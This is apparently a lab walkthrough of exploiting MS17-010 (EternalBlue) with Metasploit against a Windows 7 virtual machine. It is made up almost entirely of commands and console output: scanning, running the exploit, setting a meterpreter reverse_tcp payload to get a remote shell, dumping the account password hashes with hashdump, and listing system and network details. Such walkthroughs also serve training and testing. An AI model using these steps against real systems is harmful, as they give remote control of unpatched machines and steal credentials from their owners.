

Command : msfconsole
Command : search eternalblue
Command : use auxiliary/scanner/smb/smb_ms17_010
Command : options
Command : set rhosts 192.168.142.130
Command : run
As a result we came to know this :
[+] 192.168.142.130:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
But there's a second way to do this and you can also search for Ms17-010 instead of eternal blue and will get the same result.
Command : search Ms17-010
Command : use exploit/windows/smb/ms17_010_eternalblue
Command : options
Will use the check feature to verify if it's vulnerable to ms17-010 or not
Command : set rhosts 192.168.142.130
Command : check
[*] 192.168.142.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.142.130:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.142.130:445 - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.142.130:445 - The target is vulnerable.
Payloads are bydefault set to 32 bits atleast in this example. But we already know that the system is 64bit so will set it according to it.
Command : set payload windows/x64/meterpreter/reverse_tcp
Command : options
Command : set lhosts 192.18.142.128
Command : run
It may not work on the first attempt for most of the time so we have to run it for few time to get to the meterpreter shell.
But in our case it has run in the first attempt itself.
meterpreter : hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
meterpreter > sysinfo
Computer : WIN-845Q99OO4PP
OS : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 1
meterpreter > route
IPv4 network routes
===================
Subnet Netmask Gateway Metric Interface
------ ------- - ------ ------ ---------
0.0.0.0 0.0.0.0 192.168.142.2 10 11
127.0.0.0 255.0.0.0 127.0.0.1 306 1
127.0.0.1 255.255.255.255 127.0.0.1 306 1
127.255.255.255 255.255.255.255 127.0.0.1 306 1
192.168.142.0 255.255.255.0 192.168.142.130 266 11
192.168.142.130 255.255.255.255 192.168.142.130 266 11
192.168.142.255 255.255.255.255 192.168.142.130 266 11
224.0.0.0 240.0.0.0 127.0.0.1 306 1
224.0.0.0 240.0.0.0 192.168.142.130 266 11
255.255.255.255 255.255.255.255 127.0.0.1 306 1
255.255.255.255 255.255.255.255 192.168.142.130 266 11
No IPv6 routes were found.
meterpreter > ipconfig
Interface 1
============
Name : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:c5:26:49
MTU : 1500
IPv4 Address : 192.168.142.130
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::6554:1aa3:5de6:6bcb
IPv6 Netmask : ffff:ffff:ffff:ffff::
Interface 12
============
Name : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
IPv6 Address : fe80::5efe:c0a8:8e82
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
